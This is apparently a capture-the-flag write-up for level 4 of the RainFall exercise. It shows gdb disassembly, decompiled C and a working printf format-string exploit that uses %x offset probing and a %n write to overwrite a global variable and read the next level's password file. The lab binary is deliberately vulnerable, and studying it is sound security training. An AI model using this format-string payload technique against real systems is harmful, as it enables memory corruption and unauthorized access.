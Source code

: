 # Level 4

```gdb

(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) 


Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218
   0x08048460 <+9>:	mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
(gdb) 


(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

It seems to be another format string attack, but more complicated.

Firstly the variable 'm' is a global, so we can find it in the .bss, but this binary use fgets, so we can't overflow, so its another format string attack.

```c
void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) { // Once again we have to edit the m variable, but this time the address is way more far
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

So we must edit m again, but the address if kind big this time, we will need a big script for that.

So we are basically going to use the same script as before, but using a more longer buffer.

The 'm' adress is the following : 0x8049810 lets push it to the stack and point to it using %x.

```sh
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x %x'" | ./level4

```

We ended up finding it at the 12's %x,

So we must write 11 x to point to m.

Now we must write enough character to write 0x1025544 into m, which is 16930116 in decimal

After some documentation, we can use '%16930116x' to write 16930116 in STDIN.

python -c "print '\x10\x98\x04\x08' + '%16930116x' + '%12\$n'" | ./level4

So here's what i changed, we still push our memory to the stack, this time instead of printing 11 %x, im using '%12$n' to direcly jump to the index of the pointer, which save us byte to substrace to the input.

Since we already wrote 4 byte, we are going to substract 16930116 - 4 = 16930112.

And then we try

```sh
(...)
(...)
(...)
(...)
(...)
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

A lot of bytes got wrote to stdin, but then the %n took this length and wrote it to our address, which triggered the if and print our flag.
